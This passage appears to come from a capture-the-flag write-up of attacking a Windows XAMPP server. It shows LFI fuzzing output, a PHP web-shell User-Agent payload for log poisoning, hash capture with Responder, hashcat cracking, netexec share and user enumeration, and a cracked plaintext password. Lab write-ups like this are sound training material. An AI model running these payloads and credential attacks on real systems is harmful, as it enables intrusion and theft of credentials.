 ```bash
C:/xampp/apache/logs/error.log  [Status: 200, Size: 2277924, Words: 249715, Lines: 12242, Duration: 44ms]
c:/xampp/apache/logs/error.log  [Status: 200, Size: 2294004, Words: 251364, Lines: 12301, Duration: 39ms]
C:/xampp/apache/logs/access.log  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 73ms]
c:/xampp/apache/logs/access.log  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 67ms]
:: Progress: [236/236] :: Job [1/1] :: 19 req/sec :: Duration: [0:00:10] :: Errors: 0 ::

```
[Log Poisoning Through LFI](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)

`User-Agent: <?php system($_GET['cmd']); ?>`

 Our log file is `C:/xampp/apache/logs/access.log`

Server-Log Poisoning didn’t work.

Then I stuck a bit here, but then I remembered that if we can make the server to authenticate to us we can capture its NetNTLMv2 hashes, as we have RFI already we can give it our fake SMB server address and will try to get the file as we did earlier.

```bash
sudo responder -I tun0
```

![image.png](image%2012.png)

![image.png](image%2013.png)

Now let’s crack it using hashcat:

```bash
hashcat -m 5600 svc_apache.hash /usr/share/wordlists/rockyou.txt
```

![image.png](image%2014.png)

Check access using `netexec`:

```bash
sudo nxc smb $IP -u 'svc_apache' -p 'S@Ss!K@*t13' --shares
```

![image.png](image%2015.png)

## Lateral Movement to S.Moon

I have checked all shares but nothing interesting was found, I checked also for Kerberoastable users but there are none. We can check for AsREProastable users and perform password spraying but for that we need users:

```bash
sudo nxc smb $IP -u 'svc_apache' -p 'S@Ss!K@*t13' --users
```

![image.png](image%2016.png)
